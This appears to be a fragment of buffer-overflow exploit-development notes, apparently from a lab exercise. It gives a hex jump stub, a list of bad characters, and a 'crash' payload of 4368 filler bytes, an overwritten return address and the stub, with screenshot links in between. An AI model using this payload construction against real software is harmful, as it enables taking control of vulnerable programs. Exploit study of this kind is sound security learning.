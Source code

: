 \\x83\\xc0\\x0c\\xff\\xe0

bad chars:

\\x00\\x0a\\x0d\\x20

![](media/2685f2f82a61c703bc06a38fbe194bde.png)

crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
"\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

![](media/d7fcdb34d9d258ad3bc67c39db6a9c97.png)
